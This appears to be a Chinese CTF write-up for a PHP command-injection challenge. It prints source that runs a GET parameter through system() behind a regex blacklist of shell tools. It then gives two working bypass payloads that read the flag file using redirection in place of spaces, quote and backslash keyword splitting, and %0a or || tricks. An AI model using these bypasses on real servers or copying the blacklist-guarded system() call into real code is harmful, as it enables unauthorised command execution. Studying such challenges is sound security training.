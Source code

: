 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:22:43
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤了

;

cat

flag

空格

数字

$
*

more

less

head

sort

tail

sed

cut

awk

strings

od

curl

`

%



无回显





### 第一种

利用<>绕过空格

利用''绕过字母

利用%0a绕过无回显

```
?c=ls||
```

![image-20250403154607498](./assets/image-20250403154607498.png)

```
?c=tac<>fl''ag.php%0a
```

![image-20250403154636520](./assets/image-20250403154636520.png)





### 第二种

利用<绕过空格

利用\绕过字母

利用||绕过无回显

```
?c=tac<fl\ag.php||
```

![image-20250403154726679](./assets/image-20250403154726679.png)